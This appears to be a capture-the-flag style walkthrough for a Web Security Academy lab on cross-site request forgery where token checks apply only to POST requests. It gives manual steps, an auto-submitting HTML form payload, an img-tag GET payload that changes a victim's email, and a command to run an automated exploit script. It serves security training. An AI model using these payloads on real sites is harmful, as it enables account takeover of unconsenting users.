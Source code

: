 # CSRF LAB 02 - CSRF where token validation depends on request method

## Manual Solution

- Open the Web Security Academy lab environment in your browser.
- Log in with the credentials: username:wiener password:peter.
- Open your browser’s Developer Tools and switch to the Network tab.
- While logged in attempt to change your email address from the account settings page.
- Observe the request sent to the /my-account/change-email endpoint.
- Notice that the request contains a `CSRF` token.
- Go to the Exploit Server and paste the following HTML payload into the body of the page:
```html
    <html>
        <body>
            <form action="https://[YOUR_LAB_ID].web-security-academy.net/my-account/change-email" method="POST">
                <input type="hidden" name="email" value="hacker@hacker.com">
            </form>

            <script>
                document.forms[0].submit();
            </script>
        </body>
    </html>
```
- Click the view exploit button.
- An error message appears `"Missing parameter 'csrf'"`
- Go back to the My Account page and paste the following URL:
`https://[YOUR_LAB_ID].web-security-academy.net/my-account/change-email?email=example@example.com`
- Notice that the email address has changed. This shows that a CSRF attack can be performed using a GET request.
- Go to the Exploit Server and paste the following HTML payload into the body of the page:
```html
<img src = "https://[YOUR_LAB_ID].web-security-academy.net/my-account/change-email?email=example@example.com">
```
- Save and deliver the exploit to the victim.

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command:
```sh
python csrf_lab_02.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
```
